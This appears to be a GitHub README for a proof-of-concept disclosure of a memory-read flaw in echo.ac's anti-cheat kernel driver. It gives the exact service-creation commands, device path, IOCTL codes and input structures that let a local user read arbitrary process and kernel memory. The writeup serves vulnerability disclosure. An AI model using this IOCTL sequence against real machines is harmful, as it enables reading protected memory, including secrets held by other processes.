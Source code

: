 ![ok-removebg-preview](https://github.com/kite03/echoac-poc/assets/67329371/365b0d25-9643-4987-9e6d-ef062d105f35)

## A PoC and writeup on vulnerabilties discovered in echo.ac's driver.

## 💕 Credits

- Whanos: https://github.com/Whanos/
- Lemon
- kite03: https://github.com/kite03/

## Background
echo.ac is a commercial "screensharing tool", marketed and developed mostly for the Minecraft PvP community, but also used by some other game communities, such as Rust.
A "screensharing tool" is a program developed to "assist" server admins in identifying if someone's using cheats or similar banned external tools ingame - As such, these programs execute numerous intrusive scans on users computer, while being very vague of what they data collect and why.

When this point was brought up to them, they reacted aggressively and attacked us for criticising this practice. We think that it is unfair that users can be banned for not wanting to run this invasive software.

We also disclosed this exploit to them in private before disclosing it publicly, but they brushed us off and told us that we didn't know what we were talking about. welp.

To read our interactions with the staff team of this company, and to see the companys' response to us disclosing this exploit to them, visit https://github.com/kite03/echoac-poc/blob/main/Writeup.md. it's honestly quite damming.

## The Main Memory IOCTL Bug (CVE ID requested)
### A simple working PoC can be found in the PoC folder.

`echo-free.exe` deploys a Kernel driver named `echo_driver.sys`, which it uses mainly to scan process memory to "check for cheats".

A local attacker can send a series of specially crafted IOCTLs to the driver, which allows an attacker to arbitrarily read and query process memory and kernel memory.

The IOCTL sequence is as followed:
- Deploy the driver (if not loaded already) using the command ```sc create EchoDrv binpath= C:\PathToDriver.sys type= kernel``` and then start it with `sc start EchoDrv`
- Attain a handle to the device with `DeviceIoControl` on device path `\\\\.\\EchoDrv`
- Call IOCTL `0x9e6a0594` with no input buffer, but set an output void* buffer of length `4096`.
- Call IOCTL `0xe6224248` using the following structure as an input, setting the PID and program access as needed.
  - ```
    struct k_get_handle {
        DWORD pid;
        ACCESS_MASK access;
        HANDLE handle;
    };
    ```
  - This returns a HANDLE to the process.
- `malloc` a new buffer of your wanted type and size, then call IOCTL `0x60a26124` using the following structure to ask the driver to execute `MmCopyVirtualMemory` on your arguments.
  - ```
    struct k_param_readmem {
        HANDLE targetProcess;
        void* fromAddress;
        void* toAddress;
        size_t length;
        void* padding;
        uint32_t returnCode;
    };
    ```
  - The requested data will be located in the buffer pointed to in `toAddress`.
- Close driver handle, and then use command `sc stop EchoDrv && sc delete EchoDrv` to remove the driver from the Kernel.

## Extra Driver Info
- The driver was built on June 18th 2021, so presumably all client program versions from that point onwards are vulnerable.
- The vulnerable driver's SHA256 hash is `ea3c5569405ed02ec24298534a983bcb5de113c18bc3fd01a4dd0b5839cd17b9`.
